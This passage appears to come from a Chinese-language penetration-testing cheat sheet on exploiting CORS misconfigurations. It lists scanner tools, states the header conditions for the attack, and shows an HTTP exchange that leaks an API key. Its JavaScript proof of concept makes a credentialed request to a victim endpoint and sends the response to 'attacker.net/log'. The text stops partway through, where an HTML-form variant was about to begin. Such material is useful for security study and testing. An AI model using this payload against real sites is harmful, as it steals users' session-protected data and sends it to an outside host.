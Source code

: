 ## 工具

* [s0md3v/Corsy](https://github.com/s0md3v/Corsy/) - CORS错误配置扫描器
* [chenjj/CORScanner](https://github.com/chenjj/CORScanner) - 快速的CORS漏洞扫描器
* [@honoki/PostMessage](https://tools.honoki.net/postmessage.html) - POC构建工具
* [trufflesecurity/of-cors](https://github.com/trufflesecurity/of-cors) - 利用内部网络中的CORS错误配置
* [omranisecurity/CorsOne](https://github.com/omranisecurity/CorsOne) - 快速CORS错误配置发现工具

## 前置条件

* BURP HEADER> `Origin: https://evil.com`
* VICTIM HEADER> `Access-Control-Allow-Credential: true`
* VICTIM HEADER> `Access-Control-Allow-Origin: https://evil.com` 或 `Access-Control-Allow-Origin: null`

## 利用方法

### Origin反射

#### 漏洞实现

```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: https://evil.com
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evil.com
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

#### 概念验证(PoC)

此PoC要求相应的JS脚本托管在`evil.com`

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://victim.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

或使用HTML表单：
